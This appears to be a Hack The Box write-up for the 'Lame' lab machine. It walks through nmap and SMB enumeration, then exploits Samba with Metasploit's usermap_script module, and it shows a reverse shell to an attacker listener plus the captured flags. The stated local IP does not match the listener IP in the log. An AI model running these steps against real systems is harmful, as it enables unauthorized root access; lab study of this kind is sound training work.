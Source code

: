 # HTB: Lame

## Engagement Overview

**Target:** Lame    
**Box IP:** 10.10.10.3  
**Local IP:** 10.10.10.152  
**Date:** 2025-07-02

---

### Objectives

- Enumerate network services (SMB/FTP/SSH) and writable shares.  
- Exploit Samba (usermap_script) to gain command execution.  
- Escalate to root and capture flags.

---

## Service Enumeration

```bash
nmap -p- --min-rate=1000 -T4 10.10.10.3
```

**Relevant ports discovered:**  
- 21/tcp ftp (vsftpd)  
- 22/tcp ssh  
- 139/tcp netbios-ssn  
- 445/tcp microsoft-ds (Samba)  
- 3632/tcp distccd

SMB shares (from smbmap): `tmp` share is READ,WRITE — usable for uploads.

---

## Initial Access

### SMB foothold

```bash
smbmap -H 10.10.10.3
smbclient -N \\10.10.10.3\tmp
# connected to tmp share and uploaded/executed payload via exploit flow
```

### Exploitation attempted/used

- vsftpd 2.3.4 backdoor (CVE-2011-2523) noted but port filtered/unusable.  
- Successfully used `exploit/multi/samba/usermap_script` (Metasploit) to execute commands, resulting in a reverse shell to attacker listener.

```text
# msf console snippet
msf6 > use exploit/multi/samba/usermap_script
[*] Started reverse TCP handler on 10.10.16.5:4444
[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.3:43580)
```

Upgraded shell and spawned an interactive TTY:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
id
# uid=0(root) gid=0(root)
```

---

## Privilege Escalation

- Post-exploit TTY indicates root obtained via exploit flow; no additional privesc steps required.

---

## House Cleaning / Post-Exploitation

**Flags:**  
- `user.txt`: `e95ac31f8132e26eac44c2fe58792cfa`  
- `root.txt`: `4f8f2ae18815f97ffdf7975965d6b624`

- Removed any uploaded artifacts where applicable.  

---

## Tools Utilized
- nmap, smbmap, smbclient, metasploit, nc, python

---

## Key Takeaways
- Writable SMB shares are useful for dropping/executing payloads.  
- Samba `usermap_script` exploit remains relevant for legacy systems.  
- Always test multiple attack vectors (FTP, SMB) when initial paths are filtered.

